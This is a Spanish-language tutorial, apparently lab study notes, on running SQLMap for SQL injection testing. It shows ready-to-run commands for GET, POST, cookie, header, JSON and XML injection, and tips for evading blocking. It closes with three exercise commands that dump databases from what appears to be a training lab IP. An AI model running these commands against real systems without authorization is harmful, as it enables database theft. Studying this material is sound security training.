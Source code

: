 ### Uso de SQLMap en Peticiones HTTP

SQLMap permite automatizar la detección y explotación de vulnerabilidades de **inyección SQL (SQLi)** en aplicaciones web. Para utilizarlo correctamente, es importante configurar adecuadamente las peticiones HTTP, asegurándonos de incluir las cookies, encabezados y parámetros adecuados.

---

## **1. Configuración de SQLMap con cURL**

Una forma sencilla de configurar SQLMap es utilizando la opción **"Copiar como cURL"** desde las herramientas de desarrollo del navegador (Chrome, Edge, Firefox).

1. **Copiar la petición como cURL**
    
    - Abrir la pestaña **Red (Network)** en las herramientas de desarrollo.
    - Hacer clic derecho en la petición HTTP y seleccionar **Copy > Copy as cURL**.
2. **Convertir la petición a SQLMap**  
    Pegar la petición en la terminal y reemplazar `curl` por `sqlmap`:
    
    ```bash
    sqlmap 'http://www.example.com/?id=1' \
    -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' \
    -H 'Accept: image/webp,*/*' \
    -H 'Accept-Language: en-US,en;q=0.5' \
    --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
    ```
    
    - Esta técnica garantiza que SQLMap use la misma petición que el navegador.

---

## **2. Inyección SQL en Parámetros GET y POST**

- **Peticiones GET**: Se utilizan con `-u` para definir la URL.
    
    ```bash
    sqlmap -u "http://www.example.com/?id=1"
    ```
    
- **Peticiones POST**: Se definen con `--data`.
    
    ```bash
    sqlmap -u "http://www.example.com/" --data "uid=1&name=test"
    ```
    
- **Restringir la prueba a un solo parámetro**: Si sabemos que `uid` es vulnerable, podemos indicarlo con `-p`:
    
    ```bash
    sqlmap -u "http://www.example.com/" --data "uid=1&name=test" -p uid
    ```
    
- **Marcador `*` para inyección**:
    
    ```bash
    sqlmap -u "http://www.example.com/" --data "uid=1*&name=test"
    ```
    
    Esto indica que SQLMap debe probar la inyección en `uid`.

---

## **3. Uso de Archivos de Peticiones HTTP**

Si la petición tiene muchos encabezados o un cuerpo POST complejo, podemos usar `-r` con un archivo de solicitud HTTP:

1. **Capturar la petición con Burp Suite**
    
    - En Burp, hacer clic derecho en la petición y seleccionar **Copy to file**.
    - Guardar la petición en un archivo (`req.txt`).
2. **Ejecutar SQLMap con el archivo de solicitud**
    
    ```bash
    sqlmap -r req.txt
    ```
    
    SQLMap leerá la petición completa desde el archivo y probará vulnerabilidades.
    

---

## **4. Configuración Avanzada de SQLMap**

### **Cookies y Sesiones**

- **Incluir una cookie de sesión** con `--cookie`:
    
    ```bash
    sqlmap -u "http://www.example.com/" --cookie="PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c"
    ```
    
- **Alternativamente, definir la cookie en los encabezados** con `-H`:
    
    ```bash
    sqlmap -u "http://www.example.com/" -H "Cookie: PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c"
    ```
    

### **User-Agent Aleatorio**

Algunas aplicaciones bloquean solicitudes con el User-Agent de SQLMap. Podemos evitarlo con `--random-agent`:

```bash
sqlmap -u "http://www.example.com/" --random-agent
```

También podemos simular un navegador móvil con `--mobile`.

### **Prueba de Inyección en Encabezados**

Podemos inyectar SQL en encabezados como `Cookie`, `Referer`, `User-Agent`, etc.:

```bash
sqlmap -u "http://www.example.com/" --cookie="id=1*"
```

### **Uso de Métodos HTTP Diferentes**

Si la aplicación usa `PUT` en lugar de `GET` o `POST`, podemos indicarlo con `--method`:

```bash
sqlmap -u "http://www.example.com/" --data="id=1" --method PUT
```

---

## **5. Prueba de Inyección en JSON y XML**

SQLMap soporta inyecciones en formatos JSON y XML.

### **Inyección en JSON**

Si la aplicación usa JSON, podemos probar con:

```bash
sqlmap -u "http://www.example.com/" --data='{"id":1}'
```

Si la estructura es compleja, se recomienda usar `-r` con un archivo:

```bash
cat req.txt
```

```http
POST /api/data HTTP/1.1
Host: www.example.com
Content-Type: application/json

{
  "user": {
    "id": "1",
    "name": "test"
  }
}
```

Ejecutamos SQLMap:

```bash
sqlmap -r req.txt
```

### **Inyección en XML**

Si la aplicación usa XML, podemos hacer:

```bash
sqlmap -u "http://www.example.com/" --data='<element><id>1</id></element>'
```

O usar un archivo:

```bash
cat req.txt
```

```http
POST /api/data HTTP/1.1
Host: www.example.com
Content-Type: application/xml

<element>
  <id>1</id>
</element>
```

```bash
sqlmap -r req.txt
```

---

## **Conclusión**

SQLMap permite realizar pruebas de **inyección SQL automatizadas** de manera eficiente. Las mejores prácticas incluyen:

- **Usar la opción "Copiar como cURL"** para configurar SQLMap con precisión.
- **Utilizar `-r` para peticiones complejas capturadas con Burp**.
- **Restringir las pruebas a parámetros específicos con `-p`**.
- **Explorar inyecciones en JSON y XML si la aplicación lo usa**.
- **Utilizar encabezados personalizados y cookies para evadir restricciones**.

Este enfoque ayuda a evitar errores comunes y facilita la detección de vulnerabilidades SQLi en aplicaciones web.



## EJERCICIO

* Ejercicio 1
	


```
  sqlmap 'http://94.237.54.69:46196/case2.php' --compressed -X POST -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://94.237.54.69:46196' -H 'Connection: keep-alive' -H 'Referer: http://94.237.54.69:46196/case2.php' -H 'Upgrade-Insecure-Requests: 1' -H 'Priority: u=0, i' --data-raw 'id=1' --batch --dump
```

 
* Ejercicio 2 
sqlmap -u "http://94.237.54.69:46196/case3.php" --compressed \
-H "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0" \
-H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" \
-H "Accept-Language: en-US,en;q=0.5" \
-H "Accept-Encoding: gzip, deflate" \
-H "Connection: keep-alive" \
-H "Referer: http://94.237.54.69:46196/" \
-H "Upgrade-Insecure-Requests: 1" \
-H "Priority: u=0, i" \
--cookie="id=*" -p id --batch --dump

* Ejercicio 3

sqlmap -u "http://94.237.54.69:46196/case4.php" \
--data='{"id": 1}' \
--batch -p id --dump